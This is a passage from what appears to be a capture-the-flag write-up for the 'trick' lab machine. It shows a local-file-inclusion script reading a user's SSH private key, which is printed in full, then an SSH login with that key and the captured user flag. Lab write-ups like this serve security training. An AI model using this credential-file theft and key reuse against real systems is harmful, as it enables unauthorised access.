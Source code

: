 I then used this list and tried to check out any home directories with any readable private SSH keys:
```bash
python lfi.py home/michael/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
Nice! I then re-ran the above command but appended `> id_rsa` to the command to output the key to a file. Then after changing the permissions to the correct permissions, I was able to get a shell via SSH and the user `michael`.
```bash
chmod 600 id_rsa
ssh michael@10.129.227.180 -i id_rsa
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 10 22:35:10 2024 from 10.10.14.55
michael@trick:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
michael@trick:~$ cat user.txt
7c78cd882b52c9c9343a18c6a4770fcd

```
#### Post-exploitation/Privilege escalation
